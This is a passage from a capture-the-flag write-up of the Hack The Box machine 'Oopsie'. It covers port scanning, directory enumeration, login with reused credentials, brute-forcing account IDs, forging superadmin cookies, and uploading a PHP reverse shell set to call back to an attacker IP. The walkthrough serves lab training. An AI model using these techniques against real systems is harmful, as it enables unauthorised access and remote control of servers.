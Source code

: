 ## ------>> Oopsie <<-------

// we will start with scanning using nmap

    $ nmap -sV -A -Pn -T4 10.10.10.28 -p-
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-31 09:23 UTC
    Stats: 0:01:52 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
    Connect Scan Timing: About 13.03% done; ETC: 09:38 (0:12:21 remaining)
    Nmap scan report for 10.10.10.28
    Host is up (0.30s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
    |   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
    |_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Welcome
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 795.95 seconds
    
// quick directory search with FeroxBuster reveals me 'upload' directory, we will save that for later

    $ ./feroxbuster -u http://10.10.10.28/ -t 200

     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.3.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://10.10.10.28/
     🚀  Threads               │ 200
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.3.1
     🔃  Recursion Depth       │ 4
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Cancel Menu™
    ──────────────────────────────────────────────────
    301        9l       28w      311c http://10.10.10.28/images
    301        9l       28w      307c http://10.10.10.28/js
    301        9l       28w      308c http://10.10.10.28/css
    301        9l       28w      311c http://10.10.10.28/themes
    301        9l       28w      312c http://10.10.10.28/uploads

// since its a web server we can use 'curl' command to gain more information

    $ curl http://10.10.10.28/
    <!DOCTYPE html>
    <html lang="en">
    <head>
    <meta charset="UTF-8">
    ...
    <div class="col-6">
    <p><i class="fa fa-phone" aria-hidden="true"></i> +44 (0)123 456 789</p>
    <p><i class="fa fa-envelope" aria-hidden="true"></i> admin@megacorp.com</p>
    </div>
    ...
    
// we found the admin mail - admin@megacorp.com

// Navigating to to http://10.10.10.28/ present me with some automobile site, searching in the page source reveals me some login directory

![Image 1](https://github.com/W0lfySec/HTB/blob/main/Images/Oopsie/Screenshot_2021-07-31_09_50_13.png)

// Since we have Administrative credentials that assosiate wit MegaCorp from last challenge(ArcheType) 

    # cat ConsoleHost_history.txt 
    net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
    
// Lets try input them in the login page
// And it Works !!!

![Image 2](https://github.com/W0lfySec/HTB/blob/main/Images/Oopsie/Screenshot_2021-07-31_10_45_27.png)

// in the account directory(http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id=1) we see
Access ID | Name | Email
----------|------|-------
34322 | admin | admin@megacorp.com

// When navigating to uploads (http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads) we get error due privilleges

![Image 2](https://github.com/W0lfySec/HTB/blob/main/Images/Oopsie/Screenshot_2021-07-31_11_02_28.png)

// it seems we need super admin privilleges to upload files.  we know from account page that our id is 1 (http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id=1) and Access ID is 34322 , since we know we need super admin id we can Brute Force the id section using BurpSuite intruder
 just get to account page and refresh using BurpSuite and then right click >> send to Intruder 
 , But , First lets make little wordlist from 1-100 for the id section using crunch
 
    $ crunch 3 3 1234567890 > wordlist1-100.txt
 ![Image 2](https://github.com/W0lfySec/HTB/blob/main/Images/Oopsie/Screenshot_2021-07-31_11_32_47.png)
 
 // We got super admin id - 865757
 , Now we can edit the request in BurpSuite , just refresh upload page with BurpSuite and change the values in the request

    Cookie: user=86575; role=superadmin

// It worked !, Now we can upload files!
// since we know(from the url) the server accepts php files lets try upload php reverse shell

    $ cp /usr/share/laudanum/php/php-reverse-shell.php rshell.php
// editing the file with our ip and port

    ...
    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '10.10.16.7';  // CHANGE THIS
    $port = 1444;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;
    ...
// Dont forget to edit Access id and role in BurpSuite again when upload the file , and the upload successfull

    Repair Management System

    The file rshell.php has been uploaded.

